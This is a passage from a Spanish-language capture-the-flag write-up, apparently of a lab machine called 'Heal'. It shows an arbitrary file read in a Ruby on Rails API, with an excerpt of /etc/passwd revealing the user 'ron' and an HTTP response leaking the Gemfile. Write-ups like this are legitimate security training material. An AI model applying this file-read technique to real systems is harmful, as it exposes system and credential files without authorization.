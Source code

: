 ```bash
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
... [snip]
```

¡La API es vulnerable a lectura arbitraria de archivos!

Vemos cosas como la existencia de un usuario `ron` en el sistema, pero nada que nos pueda ayudar a entrar en el sistema aún. Sin embargo, si vemos el index de la API veremos que:

![Rails](/assets/writeups/heal/3.png)

Se trata de un Ruby On Rails, por lo que debe haber un Gemfile en la raíz del proyecto:

```bash
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 21 May 2025 21:11:00 GMT
< Content-Type: application/octet-stream
< Content-Length: 1595
< Connection: keep-alive
< x-frame-options: SAMEORIGIN
< x-xss-protection: 0
< x-content-type-options: nosniff
< x-permitted-cross-domain-policies: none
< referrer-policy: strict-origin-when-cross-origin
< content-disposition: attachment; filename="Gemfile"; filename*=UTF-8''Gemfile
< content-transfer-encoding: binary
< cache-control: no-cache
< x-request-id: 716e803d-0871-416a-83eb-09008324d67f
< x-runtime: 0.003553
< vary: Origin
< 
source "https://rubygems.org"

ruby "3.3.5"

```